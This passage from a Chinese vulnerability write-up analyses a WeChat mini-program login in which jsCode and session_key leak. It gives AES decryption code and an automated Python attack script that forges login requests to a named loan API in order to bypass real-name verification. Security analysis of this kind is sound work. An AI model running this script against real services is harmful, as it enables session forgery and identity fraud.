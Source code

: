 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/OMTnCvx3T1KNSPJhZj3ENMHDdFibMTYZGqibEiaeo7bUVcZxDokaUcncXdhzSfRb1lHuP8S8SCfl8gLORdM2j7jkw/640?wx_fmt=png&from=appmsg "")  
到此成功登录。  
## 二、漏洞原理分析  
### （一）加密链路缺陷  
1. **前端暴露密钥要素**  
  
通过小程序逆向工程发现：  
```
// wx.login接口明文返回jsCodewx.login({  success(res) {    console.log(res.code); // 直接暴露jsCode  }});
```  
  
  
1. **后端响应泄露密钥材料**  
  
抓取登录接口响应包：  
```
HTTP/1.1 200 OKContent-Type: application/json{  "encryptedData": "...",  "iv": "...",  "session_key": "0123456789abcdef0123456789abcdef" // 核心密钥泄露}
```  
  
  
### （二）攻击链路推演  
```
graph TD    A[获取jsCode] --> B[构造虚假登录请求]    B --> C{后端响应}    C -->|包含session_key| D[解密encryptedData]    D --> E[伪造完整会话]    E --> F[绕过实名认证]
```  
## 三、漏洞利用实战  
### （一）密钥重组  
1. **AES-CBC参数准备**  
```
from Crypto.Cipher import AESimport base64def decrypt(session_key, iv, encrypted_data):    cipher = AES.new(session_key, AES.MODE_CBC, iv)    decrypted = cipher.decrypt(base64.b64decode(encrypted_data))    return decrypted.decode('utf-8')
```  
  
  
1. **时间戳同步突破**  
  
发现服务端时间校验逻辑：  
```
// 后端时间校验代码片段long clientTime = request.getHeader("X-Timestamp");if (Math.abs(clientTime - System.currentTimeMillis()) > 300000) {    throw new InvalidTimestampException();}
```  
  
  
### （二）自动化攻击脚本  
```
import requestsimport timeTARGET_URL = "https://api.wechat-loan.com/login"HEADERS = {    "User-Agent": "Mozilla/5.0 (iPhone; CPU iPhone OS 15_0 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Mobile/15E148 MicroMessenger/8.0.36",    "X-Requested-With": "XMLHttpRequest"}def exploit():    # 获取当前时间戳（毫秒）    timestamp = int(time.time() * 1000)        # 构造恶意请求    payload = {        "jsCode": "023f4a5b6c8d9e0f1a2b3c4d5e6f7a8b9c",        "encryptedData": "CvYyQ2...",        "iv": "XyZwVu...",        "timestamp": timestamp    }        # 发送请求    response = requests.post(TARGET_URL, json=payload, headers=HEADERS)        # 时间戳修正循环    while"invalid timestamp"in response.text.lower():        timestamp += 1000# 毫秒级微调        payload["timestamp"] = timestamp        response = requests.post(TARGET_URL, json=payload, headers=HEADERS)        return response.json()if __name__ == "__main__":    session = exploit()    print("Session Token:", session.get("token"))
```  
## 四、漏洞危害评估  
### （一）攻击面分析  
1. **数据窃取链路**  
  
